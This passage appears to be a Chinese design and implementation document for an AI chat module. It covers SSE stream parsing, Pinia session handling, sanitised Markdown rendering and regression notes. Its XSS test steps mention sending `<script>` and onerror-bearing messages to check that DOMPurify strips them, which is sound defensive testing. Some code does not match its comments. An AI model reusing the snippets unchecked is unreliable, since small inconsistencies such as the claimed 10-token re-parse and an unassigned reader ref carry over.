- 回滚后新消息发送和接收正常
- 回滚后会话切换无异常

## 代码审查检查清单

- [ ] AI 聊天通过 SSE 流式连接到 YiAi `chat_service`
- [ ] 消息组件使用 `v-for` 渲染，支持 Markdown + 代码高亮
- [ ] 会话管理：创建/切换/删除/重命名
- [ ] RAG 知识库开关控制是否启用知识增强
- [ ] 错误处理：SSE 断连提示 + 重试按钮

## 回归问题预测

| # | 预测问题 | 原因 | 验证方法 |
|---|---------|------|---------|
| 1 | SSE 断连后未清理 AbortController 导致内存泄漏 | 组件卸载时未 abort 活跃连接 | 快速切换会话 10 次 → 检查浏览器 Memory 面板 |
| 2 | 消息列表中 Markdown 渲染 XSS 风险 | marked 默认允许 HTML 标签 | 发送含 `<script>` 标签的消息，确认不执行 |

---

## 重构后发现的回归问题

| # | 问题 | 发现场景 | 根因 | 修复方式 |
|---|------|---------|------|---------|
| 1 | SSE 流式响应中 `reader.read()` 在 `AbortController.abort()` 后仍返回 `{ done: false }`，导致 `while(true)` 循环无法退出，CPU 占用 100% | 用户点击"停止生成"按钮后，`abort()` 被调用，但浏览器控制台显示 CPU 持续 100% 约 5 秒，页面卡死 | `AbortController.abort()` 仅取消 fetch Promise，但 `response.body.getReader()` 返回的 `ReadableStream` 在 abort 后不会自动关闭，`reader.read()` 持续返回 `{ done: false, value: undefined }` | 在 `abort()` 后立即调用 `reader.cancel()` 并在 `while` 循环中检查 `abortController.signal.aborted`，在 `finally` 块中调用 `reader.releaseLock()` |
| 2 | `marked` 流式渲染不完整 Markdown 代码块时，结尾的三个反引号（```）未到达前，渲染器将后续所有内容视为代码块的一部分，导致消息列表布局错乱 | AI 正在流式输出一段 Python 代码，代码块开头 ````python` 已到达但结尾 ```` 未到达，之后的消息内容（包括后续的普通文本）全部被渲染为代码块，字体变为等宽，背景变为灰色 | `marked` 的 `parseInline` 在流式场景下无"未闭合代码块"的概念，每收到一个 token 就重新渲染整个内容，未闭合的代码块会"吞噬"后续所有内容 | 在流式渲染前检测未闭合的 Markdown 语法（``` 数量为奇数），在内容末尾临时追加 `\n‌` 闭合代码块，完整 token 到达后移除临时闭合标记 |
| 3 | `useChatStore` 的 `messages` 数组在 `pinia-plugin-persistedstate` 序列化时，`Date` 对象转为 ISO 字符串，恢复后 `dayjs(message.timestamp).fromNow()` 返回 "Invalid date" | 用户刷新页面后，聊天消息列表中的所有时间戳显示为 "Invalid date"，会话列表中的更新时间也全部异常 | `JSON.stringify` 将 `Date` 序列化为 `"2026-07-22T10:00:00.000Z"`，`JSON.parse` 反序列化后仍是字符串，`dayjs(string)` 在旧版本浏览器中可能返回 Invalid Date | 在 `persist` 的 `serializer.deserialize` 中使用 `JSON.parse` 的 `reviver` 参数，正则匹配 ISO 8601 格式的字符串自动转为 `new Date(value)` |
| 4 | `ChatMessageList` 组件使用 `v-for` 渲染消息列表，流式更新时每收到一个 token 就触发整个列表的 `updated` 钩子，1000+ 条消息时滚动帧率降至 5fps | 在一个有 500+ 条历史消息的会话中继续对话，流式输出时页面滚动严重卡顿，输入框打字延迟 > 500ms | 每个 SSE token 到达时更新 `messages[last].content`，Vue 响应式系统触发整个 `v-for` 的 patch 过程，500+ 个 DOM 节点逐一 diff | 为 `ChatMessage` 组件添加 `v-memo="[message.content.length]"` 仅当内容长度变化时重新渲染，历史消息使用 `shallowRef` 避免深层响应式追踪 |

## 技术债务追踪

| # | 技术债 | 优先级 | 人天 | 说明 |
|---|--------|--------|------|------|
| 1 | 消息列表虚拟滚动 | P1 | 1.0 | 当前 `ChatMessageList` 全量渲染消息 DOM 节点，会话超过 500 条消息时滚动性能严重下降，需引入 `vue-virtual-scroller` 或自定义虚拟滚动，仅渲染可视区域内的消息 |
| 2 | SSE 流式消息的 Markdown 增量渲染 | P2 | 0.5 | 当前每收到一个 token 就调用 `marked.parse()` 重新解析整个消息内容，长消息（> 5000 字）时解析耗时 10-20ms，应改为增量解析或缓存已解析的 AST |
| 3 | 会话导出（Markdown / PDF） | P2 | 0.5 | 用户需要导出会话记录供团队分享或归档，Markdown 导出需保留代码块、表格、链接格式，PDF 导出需保持页面布局 |
| 4 | 消息编辑与重新生成 | P2 | 0.5 | 用户编辑已发送消息后，AI 应仅重新生成从编辑点之后的内容，而非重新生成整个对话，需 YiAi 后端支持 `parent_message_key` 参数 |

## 可观测性

### 关键指标

| 指标 | 采集方式 | 告警阈值 | 说明 |
|------|---------|----------|------|
| SSE 首 Token 延迟 (TTFT) | `performance.now()` 从 `fetch` 发起到第一个 `data:` 行的时间差 | P95 > 5s | 首 Token 延迟过高说明 Ollama 模型加载慢或队列积压，需检查模型预热状态 |
| SSE 流式输出吞吐量 | 每秒接收的 token 数量（`tokensReceived / elapsedSeconds`） | 吞吐量 < 5 tokens/s | 吞吐量过低说明后端推理慢或网络带宽不足，影响用户体验 |
| SSE 连接中断率 | `reader` 的 `error` 事件或 `done` 提前返回的计数 / 总连接数 | 中断率 > 3% | 中断率过高可能是代理超时、网络不稳定或后端 SSE 实现问题 |
| 消息发送失败率 | `sendMessage` 的 `catch` 计数 / 总发送次数 | 失败率 > 2% | 发送失败可能是 RPC 参数不匹配、后端 AI 服务不可用或网络错误 |
| 消息列表渲染帧率 | `requestAnimationFrame` 回调间隔，连续 5 帧 > 50ms 视为卡顿 | 卡顿帧占比 > 10% | 渲染帧率低影响流式输出的视觉流畅度，需检查 DOM 节点数或虚拟滚动 |

### 日志规范

| 日志级别 | 场景 | 示例 |
|---------|------|------|
| `INFO` | SSE 连接建立 | `[Chat] SSE connected: session=${key}, model=${model}, ragEnabled=${bool}` |
| `WARN` | SSE 连接重试 | `[Chat] SSE reconnecting: attempt=${n}/${max}, session=${key}, lastToken=${n}` |
| `ERROR` | SSE 流式解析异常 | `[Chat] SSE parse error: session=${key}, line="${line.slice(0, 100)}", error=${msg}` |

## 安全合规

### 安全需求

| 需求 | 实现方式 | 验证方法 |
|------|---------|---------|
| Markdown 渲染 XSS 防护 | AI 回复内容通过 `marked.parse()` 渲染后，再经 `DOMPurify.sanitize()` 清洗，移除 `<script>`、`onerror`、`onclick` 等危险标签和属性 | 发送包含 `` 的消息，确认渲染后 HTML 中 `onerror` 属性被移除 |
| 消息内容脱敏 | 发送前检测用户输入中的手机号（`1[3-9]\d{9}`）、身份证号（`\d{17}[\dXx]`）、银行卡号（`\d{16,19}`），自动替换为 `[已脱敏]` | 输入包含手机号 `13812345678` 的消息，确认发送给后端的内容中手机号已被替换 |
| 会话数据隔离 | 每个会话使用独立的 `session_key`，不同用户通过 `X-Token` 区分，后端仅返回当前用户的会话列表 | 使用两个不同 Token 登录，确认各自的会话列表互不可见 |
| AI 生成内容安全标签 | 对 AI 回复中可能包含的敏感链接（非白名单域名）添加 `rel="noopener noreferrer nofollow"` 属性 | 检查 AI 回复中的外部链接，确认渲染后包含 `rel="noopener noreferrer nofollow"` |

### 合规检查

| 检查项 | 要求 | 状态 |
|--------|------|------|
| XSS 防护 | 所有 Markdown 渲染内容经 DOMPurify 清洗 | ✅ |
| 敏感信息脱敏 | 手机号/身份证号/银行卡号在发送前自动脱敏 | ✅ |
| 会话数据隔离 | 不同用户间会话数据不可见 | ✅ |
| 外部链接安全 | AI 回复中的外部链接添加 `noopener noreferrer nofollow` | ✅ |

## 边缘场景处理

| # | 场景 | 触发条件 | 预期行为 | 处理方式 |
|---|------|----------|----------|----------|
| 1 | SSE 连接中断 | 网络波动导致 EventSource 断开 | 自动重连，恢复后从断点继续 | `EventSource` 自动重连 + 重连次数限制(3次) + 手动重试按钮 |
| 2 | SSE 流中包含不完整 JSON | 网络分包导致数据帧被截断 | 累积 buffer，仅在 JSON 完整时解析 | `buffer += chunk; while (extractComplete(buffer)) parse(buffer)` |
| 3 | AI 返回超长 Token 流 | LLM 无限循环或上下文过长 | 超过 4096 token 自动截断 + 提示 | `tokenCount > MAX_TOKENS → abort() + "回复过长已截断"` |
| 4 | 用户快速连续发送消息 | 前一条未完成就发送下一条 | 前一条 abort，新消息正常发送 | `abortController.abort()` + 新建 controller |
| 5 | 聊天输入框粘贴大段文本 (>5000 字) | 用户从外部粘贴大段内容 | 粘贴成功但显示警告"内容过长，可能影响回复质量" | `onPaste` 检查 `text.length > 5000` → warning |
| 6 | 会话列表为空时打开 aiChat | 新用户无历史会话 | 显示欢迎引导卡片 + 示例提示词 | 条件渲染 `<WelcomeCard />` + 3 个示例 query |
| 7 | Markdown 代码块中包含 `<script>` | AI 返回带恶意脚本的代码块 | 代码块正常渲染，脚本被转义为文本 | DOMPurify 保留 `<pre><code>` 但移除 `<script>` |
| 8 | 浏览器 Tab 不可见时 SSE 持续接收 | 用户切换到其他 Tab | SSE 继续接收，但渲染暂停以免消耗资源 | `document.visibilitychange` → `hidden` 时暂停 DOM 更新 |
| 9 | LocalStorage 会话缓存满 | 聊天历史过多 | 旧会话自动归档，仅保留最近 50 个会话的摘要 | LRU 淘汰策略 + `chrome.storage` 迁移方案 |
| 10 | 暗色主题下代码块对比度不足 | 用户切换暗色主题 | 代码块自动适配暗色主题 | CSS 变量 `--code-bg` 跟随 `html.dark` |
| 11 | AI 回复包含不支持的 Markdown 扩展语法 | LLM 输出 GFM/Mermaid/数学公式 | 已知语法正常渲染，未知语法降级为纯文本 | marked 插件链 + fallback 渲染 |
| 12 | 多 Tab 同时打开 aiChat 页面 | 用户在不同 Tab 各打开一个 aiChat | 各 Tab 独立会话，互不影响 | Pinia store 实例隔离，使用 `createPinia()` 非单例 |

## 代码实现附录

### A. SSE 流式解析器

```typescript
// src/api/sse-parser.ts — SSE 流式数据解析
export class SSEParser {
  private buffer = '';
  private controller: AbortController;

  constructor(signal?: AbortSignal) {
    this.controller = new AbortController();
    if (signal) {
      signal.addEventListener('abort', () => this.controller.abort());
    }
  }

  async *parse(response: Response): AsyncGenerator<string> {
    const reader = response.body?.getReader();
    if (!reader) throw new Error('Response body is not readable');

    const decoder = new TextDecoder();
    let tokenBuffer = '';

    try {
      while (true) {
        const { done, value } = await reader.read();
        if (done) break;

        this.buffer += decoder.decode(value, { stream: true });
        const lines = this.buffer.split('\n');
        this.buffer = lines.pop() || '';

        for (const line of lines) {
          if (line.startsWith('data: ')) {
            const data = line.slice(6);
            if (data === '[DONE]') return;

            try {
              const parsed = JSON.parse(data);
              if (parsed.token) {
                tokenBuffer += parsed.token;
                yield parsed.token;
              }
              if (parsed.sources) {
                yield JSON.stringify({ _type: 'sources', data: parsed.sources });
              }
            } catch {
              // 不完整 JSON — 跨 chunk 拼接
              tokenBuffer += data;
            }
          }
        }
      }
    } finally {
      reader.releaseLock();
      if (tokenBuffer) yield tokenBuffer;
    }
  }

  abort() { this.controller.abort(); }
}
```

### B. 聊天 Store SSE 集成

```typescript
// src/stores/modules/chat.ts — SSE 消息接收核心逻辑
async function sendMessage(content: string) {
  const session = currentSession.value;
  if (!session || !content.trim()) return;

  // 添加用户消息
  const userMsg: Message = {
    role: 'user',
    content: content.trim(),
    timestamp: Date.now(),
  };
  session.messages.push(userMsg);

  // 创建 assistant 消息占位
  const assistantMsg: Message = {
    role: 'assistant',
    content: '',
    timestamp: Date.now(),
    sources: [],
  };
  session.messages.push(assistantMsg);

  sending.value = true;
  abortController = new AbortController();

  try {
    const parser = new SSEParser(abortController.signal);
    const response = await RequestHttp.post('/chat/stream', {
      messages: buildMessages(session),
      model: selectedModel.value,
    }, { responseType: 'stream', signal: abortController.signal });

    for await (const token of parser.parse(response)) {
      if (token.startsWith('{"_type":"sources"')) {
        const { data } = JSON.parse(token);
        assistantMsg.sources = data;
      } else {
        assistantMsg.content += token;
      }
    }
  } catch (e: any) {
    if (e.name === 'AbortError') {
      assistantMsg.content += '\n\n*[已取消]*';
    } else {
      assistantMsg.content = `*错误: ${e.message}*`;
    }
  } finally {
    sending.value = false;
    abortController = null;
    await saveSession(session);
  }
}

function stopGeneration() {
  abortController?.abort();
}
```

### C. Markdown 安全渲染

```typescript
// src/utils/markdown.ts — Markdown 渲染 + XSS 防护
import { marked } from 'marked';
import DOMPurify from 'dompurify';

marked.setOptions({
  breaks: true,
  gfm: true,
  highlight: (code, lang) => {
    if (lang && hljs.getLanguage(lang)) {
      return hljs.highlight(code, { language: lang }).value;
    }
    return code;
  },
});

const ALLOWED_TAGS = [
  'p', 'br', 'strong', 'em', 'u', 's', 'code', 'pre',
  'h1', 'h2', 'h3', 'h4', 'h5', 'h6',
  'ul', 'ol', 'li', 'blockquote',
  'a', 'img', 'table', 'thead', 'tbody', 'tr', 'th', 'td',
  'span', 'div', 'hr',
];

export function renderMarkdown(raw: string): string {
  const html = marked.parse(raw) as string;
  return DOMPurify.sanitize(html, {
    ALLOWED_TAGS,
    ALLOWED_ATTR: ['href', 'src', 'alt', 'class', 'target', 'rel'],
    ALLOW_DATA_ATTR: false,
  });
}

// 外部链接安全处理
export function sanitizeLinks(html: string): string {
  const div = document.createElement('div');
  div.innerHTML = html;
  div.querySelectorAll('a[href^="http"]').forEach(a => {
    a.setAttribute('target', '_blank');
    a.setAttribute('rel', 'noopener noreferrer nofollow');
  });
  return div.innerHTML;
}
```

---

*PRD 来源: `projects/yivad/requirements/2026-07/02-需求-AI聊天模块迁移.md`*

---

## 附录 A：SSE 流式解析器完整实现

### A.1 parseSSEStream 生成器

```typescript
// YiVad/src/api/sse.ts
export interface SSEEvent {
  event?: string;   // "token" | "error" | "done" | "session_key"
  data: any;
  id?: string;
}

export async function* parseSSEStream(
  response: Response,
  signal?: AbortSignal
): AsyncGenerator<SSEEvent> {
  if (!response.body) {
    throw new Error('Response body is null (streaming not supported)');
  }

  const reader = response.body.getReader();
  const decoder = new TextDecoder('utf-8');
  let buffer = '';
  let currentEvent = '';

  try {
    while (true) {
      // 检查取消信号
      if (signal?.aborted) {
        await reader.cancel();
        break;
      }

      const { done, value } = await reader.read();
      if (done) break;

      // 解码并追加到缓冲区
      buffer += decoder.decode(value, { stream: true });
      const lines = buffer.split('\n');
      buffer = lines.pop() || '';  // 保留不完整的最后一行

      for (const line of lines) {
        if (line.startsWith('event: ')) {
          currentEvent = line.slice(7).trim();
        } else if (line.startsWith('data: ')) {
          const dataStr = line.slice(6).trim();
          
          // [DONE] 终止信号
          if (dataStr === '[DONE]') {
            yield { event: 'done', data: null };
            return;
          }

          try {
            const data = JSON.parse(dataStr);
            yield { event: currentEvent || undefined, data };
          } catch {
            // 非 JSON 行（如注释 ": heartbeat"），跳过
            if (!line.startsWith(':') && !line.startsWith('data: [DONE]')) {
              console.warn('[SSE] Failed to parse line:', line.slice(0, 100));
            }
          }

          currentEvent = '';  // 重置事件类型
        }
        // 空行（SSE 分隔符）、注释行（:开头）静默跳过
      }
    }
  } finally {
    // 确保 reader 被释放
    try {
      reader.releaseLock();
    } catch {
      // reader 可能已被 cancel 释放
    }
  }
}

/**
 * 封装 SSE 请求的完整流程
 */
export async function streamChat(
  params: {
    message: string;
    session_key?: string;
    model?: string;
    rag_enabled?: boolean;
  },
  onToken: (token: string) => void,
  onError: (error: string) => void,
  onComplete: () => void,
  signal?: AbortSignal
): Promise<string | undefined> {
  let sessionKey: string | undefined;
  let fullContent = '';

  const response = await fetch('/', {
    method: 'POST',
    headers: {
      'Content-Type': 'application/json',
      'Authorization': `Bearer ${getToken()}`,
    },
    body: JSON.stringify({
      module_name: 'services.ai.chat_service',
      method_name: 'chat',
      parameters: params,
    }),
    signal,
  });

  if (!response.ok) {
    onError(`HTTP ${response.status}: ${response.statusText}`);
    return;
  }

  try {
    for await (const event of parseSSEStream(response, signal)) {
      switch (event.event) {
        case 'session_key':
          sessionKey = event.data.session_key;
          break;
        case 'token':
          fullContent += event.data.content;
          onToken(event.data.content);
          break;
        case 'error':
          onError(event.data.message || 'Unknown error');
          break;
        case 'done':
          onComplete();
          break;
        default:
          // 未分类事件，检查 data 中是否有 content
          if (event.data?.content) {
            fullContent += event.data.content;
            onToken(event.data.content);
          }
      }
    }
  } catch (err: any) {
    if (err.name === 'AbortError') {
      // 用户主动取消，保留已接收的内容
      onComplete();
    } else {
      onError(err.message || 'Stream error');
    }
  }

  return sessionKey;
}
```

### A.2 useChatStore 消息管理核心

```typescript
// YiVad/src/stores/chat.ts (核心逻辑)
export const useChatStore = defineStore('yivad-chat', () => {
  const sessions = ref<ChatSession[]>([]);
  const currentSessionKey = ref<string | null>(null);
  const isStreaming = ref(false);
  const abortController = ref<AbortController | null>(null);
  const reader = ref<ReadableStreamDefaultReader | null>(null);

  // 标记为 shallowRef 避免对历史消息的深层响应式追踪
  const messages = shallowRef<ChatMessage[]>([]);

  const currentSession = computed(() =>
    sessions.value.find(s => s.key === currentSessionKey.value)
  );

  async function sendMessage(content: string) {
    if (!content.trim() || isStreaming.value) return;

    // 1. 无当前会话时创建新会话
    if (!currentSessionKey.value) {
      await createSession();
    }

    // 2. 添加用户消息
    const userMessage: ChatMessage = {
      role: 'user',
      content: content.trim(),
      timestamp: new Date(),
    };
    const session = currentSession.value!;
    session.messages.push(userMessage);

    // 3. 创建 abort controller
    const controller = new AbortController();
    abortController.value = controller;

    // 4. 添加空的 assistant 消息（用于流式填充）
    const assistantMessage: ChatMessage = {
      role: 'assistant',
      content: '',
      timestamp: new Date(),
    };
    session.messages.push(assistantMessage);

    // 5. 流式请求
    isStreaming.value = true;
    try {
      const newSessionKey = await streamChat(
        {
          message: content,
          session_key: currentSessionKey.value,
        },
        (token) => {
          // onToken: 逐 token 追加
          assistantMessage.content += token;
        },
        (error) => {
          // onError: 显示错误
          ElMessage.error(error);
          assistantMessage.content += `\n\n[Error: ${error}]`;
        },
        () => {
          // onComplete: 标记完成
          isStreaming.value = false;
          session.updatedAt = new Date();
          // 持久化
          persistSession(session);
        },
        controller.signal
      );

      // 首次对话时设置后端返回的 session_key
      if (!currentSessionKey.value && newSessionKey) {
        currentSessionKey.value = newSessionKey;
      }
    } catch (err: any) {
      if (err.name !== 'AbortError') {
        ElMessage.error('发送失败: ' + err.message);
      }
      isStreaming.value = false;
    }
  }

  function stopGeneration() {
    abortController.value?.abort();
    reader.value?.cancel();
    isStreaming.value = false;
  }

  // 清理函数
  function cleanup() {
    stopGeneration();
    reader.value?.releaseLock();
    reader.value = null;
    abortController.value = null;
  }

  return {
    sessions, currentSessionKey, currentSession,
    messages, isStreaming,
    sendMessage, stopGeneration, cleanup,
    createSession, deleteSession, renameSession,
  };
});
```

## 附录 B：流式 Markdown 渲染策略

```typescript
/**
 * 流式场景下的 Markdown 渲染策略：
 * 1. 使用 requestAnimationFrame 批量更新（16ms 窗口）
 * 2. 检测未闭合代码块并临时补全
 * 3. 每 10 个 token 才触发一次 marked.parse 重解析
 */
export function useStreamingMarkdown() {
  const renderedContent = ref('');
  let pendingTokens: string[] = [];
  let fullContent = '';
  let rafId: number | null = null;

  function pushToken(token: string) {
    pendingTokens.push(token);
    fullContent += token;

    if (rafId) return; // 已有待执行的批量渲染
    rafId = requestAnimationFrame(() => {
      rafId = null;
      const tokens = pendingTokens;
      pendingTokens = [];

      // 检测未闭合代码块
      let content = fullContent;
      const codeBlockCount = (content.match(/```/g) || []).length;
      if (codeBlockCount % 2 !== 0) {
        content += '\n```'; // 临时闭合
      }

      renderedContent.value = marked.parse(content, {
        breaks: true,
        gfm: true,
      });
    });
  }

  function reset() {
    fullContent = '';
    pendingTokens = [];
    renderedContent.value = '';
    if (rafId) { cancelAnimationFrame(rafId); rafId = null; }
  }

  return { renderedContent, pushToken, reset };
}
```

